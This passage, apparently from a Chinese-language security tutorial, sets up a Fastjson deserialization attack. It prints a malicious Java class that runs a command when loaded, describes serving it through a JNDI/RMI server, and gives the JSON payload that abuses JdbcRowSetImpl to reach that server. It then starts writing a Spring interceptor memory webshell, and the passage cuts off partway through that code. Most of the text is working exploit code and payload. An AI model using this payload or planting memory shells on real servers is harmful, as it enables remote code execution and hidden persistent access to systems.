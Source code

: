     

创建恶意代码

    
    
    package com.evalshell.server;  
    import java.lang.Runtime;  
    import java.lang.Process;  
      
    public class TouchFile {  
        static {  
            try {  
                Runtime rt = Runtime.getRuntime();  
                String[] commands = {"open", "/System/Applications/Calculator.app"};  
                Process pc = rt.exec(commands);  
                pc.waitFor();  
            } catch (Exception e) {  
                // do nothing  
            }  
        }  
    }  
    

启动JNDIServer，端口启动在了1099

![](https://gitee.com/fuli009/images/raw/master/public/20210826121809.png)

在TouchFile的编译后的类路径下，开启web服务，提供恶意类文件的http下载服务，这个端口必须和上面的JNDIServer中配置的一致。

![](https://gitee.com/fuli009/images/raw/master/public/20210826121810.png)

我们使用FastJson的Payload进行攻击

    
    
    {  
        "a":{  
            "@type":"java.lang.Class",  
            "val":"com.sun.rowset.JdbcRowSetImpl"  
        },  
        "b":{  
            "@type":"com.sun.rowset.JdbcRowSetImpl",  
            "dataSourceName":"rmi://127.0.0.1:1099/TouchFile",  
            "autoCommit":true  
        }  
    }  
    

用postman请求，攻击成功的话，就会弹出计算器，表示可以执行任意命令。

![](https://gitee.com/fuli009/images/raw/master/public/20210826121811.png)

好的，上述已经搭建起一个Fastjson的漏洞环境。

使用上述方法编写拦截器内存马：

    
    
    package com.evalshell.server;  
    import org.springframework.web.context.WebApplicationContext;  
    import org.springframework.web.context.request.RequestContextHolder;  
    import org.springframework.web.context.request.ServletRequestAttributes;  
    import org.springframework.web.servlet.handler.AbstractHandlerMethodMapping;  
    import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;  
    import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;  
    import org.springframework.web.servlet.mvc.method.RequestMappingInfo;  
    import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;  
      